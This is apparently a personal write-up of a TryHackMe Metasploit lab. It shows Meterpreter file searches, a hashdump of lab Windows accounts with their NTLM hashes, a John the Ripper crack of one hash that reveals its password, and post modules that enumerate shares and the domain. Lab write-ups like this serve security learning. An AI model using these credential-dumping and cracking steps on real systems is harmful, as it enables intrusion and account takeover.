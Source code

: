 ```yaml
---
Tags: MetasploitMeterpreter
date: 06-26-2022
---
```


[TryHackMe Rooms](./TryHackMeRooms.md)

---

- used search -f secrets.txt to find the file 

- secrets.txt file was located at c:\Program Files (x86)\Windows Multimedia Platform\
- and contained :
  - My Twitter password is KDSvbsw3849!

- migrated to DNS process and got hashdump of (migrate dns.exe)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:7266b0cffc608b5e9998ce69c723546f:::
```
- used search -f realsecret.txt to find the file 

- realsecret.txt file was located at c:\inetpub\wwwroot\realsecret.txt
- and contained :
  - The Flash is the fastest man alive

---
in order to get the password for jchambers i used john the ripper to crack the hash with the following command and output that follows in the below code block.
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT jchambershash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (jchambers)     
1g 0:00:00:00 DONE (2022-06-26 21:24) 33.33g/s 1715Kp/s 1715Kc/s 1715KC/s abc789..300195
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 

```

-----
- Question enumerating shares
```
Backgrounding session 2...
msf6 exploit(windows/smb/psexec) > search enum_shares

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  post/windows/gather/enum_shares                   normal  No     Windows Gather SMB Share Enumeration via Registry


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_shares

msf6 exploit(windows/smb/psexec) > use 0
msf6 post(windows/gather/enum_shares) > options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate Recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate Recently mapped shares
   SESSION                   yes       The session to run this module on

msf6 post(windows/gather/enum_shares) > exploit
[-] Post failed: Msf::OptionValidateError One or more options failed to validate: SESSION.
msf6 post(windows/gather/enum_shares) > session
[-] Unknown command: session
msf6 post(windows/gather/enum_shares) > sessions

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.6.120.116:4444 -> 10.10.134.56:61193 (10.10.134.56)

msf6 post(windows/gather/enum_shares) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/enum_shares) > exploit

[*] Running against session 2
[*] The following shares were found:
[*]     Name: SYSVOL
[*] 
[*]     Name: NETLOGON
[*] 
[*]     Name: speedster
[*] 
[*] Post module execution completed
msf6 post(windows/gather/enum_shares) > 
```
-----

---
- question find  domain
```
msf6 post(windows/gather/enum_domain) > exploit

[+] FOUND Domain: FLASH
[+] FOUND Domain Controller: ACME-TEST (IP: 10.10.134.56)
[*] Post module execution completed
```


---

